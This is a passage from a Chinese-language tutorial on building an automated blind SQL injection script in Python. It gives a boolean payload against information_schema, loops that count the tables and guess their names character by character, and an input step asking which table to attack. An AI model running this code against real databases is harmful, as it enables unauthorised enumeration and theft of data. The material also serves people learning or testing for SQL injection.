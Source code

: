```
1 AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema={})={} #
```

“WHERE”子句需要一个字符串，所以我们必须注意用它的十六进制值替换占位符，python 中是这样的:

```
query = queries["n_tables"]
n_tables = 0
for i in range(1, 10):
    if get_query_result(s, sqli_blind_url, query, get_hex_str(dbname), i):
        print(f"[+] It has {i} tables")
        n_tables = i
        break
```

现在我们知道了表的数量，下一步是列出它们，此时我们会遇到两个主要问题:

*   盲人 SQL 注入一次只能测试一个名字。
*   枚举许多表可能需要很多时间。

我们解决第一个问题的方法是在 WHERE 子句中附加一个不等于链，以排除我们已经找到的表(在下一段中，我们将看到另一种使用 LIMIT 子句的技术)。

我们将通过允许用户在找到正确的表时提前停止扫描来部分解决第二个问题。

这是代码:

```
query = queries["tables"]found_tables = [[] for _ in range(n_tables)]
completion = ""
for i in range(n_tables):        
    for j in range(1, 10):
        for c in string.ascii_lowercase:
            if get_query_result(s, sqli_blind_url, query, get_hex_str(dbname), completion, j, get_hex_str(c)):
                found_tables[i].append(c)
                break
    print("\t","".join(found_tables[i]))
    completion += f" AND table_name <> {get_hex_str(''.join(found_tables[i]))}"
```

# 步骤 3:获取表格信息

文章背后的想法是构建一个一体化的脚本，那么，脚本如何知道什么是目标表呢？

快速反应是:**不能！**

因此，不需要做任何事情，我们可以接受用户输入:

```
users_table = input("Type the tabname to attack: ")
```

之后，我们在 WHERE 子句中插入一个字符串(记住，您可以只插入它的十六进制值)并获得我们需要的信息:

*   列数
*   列的名称
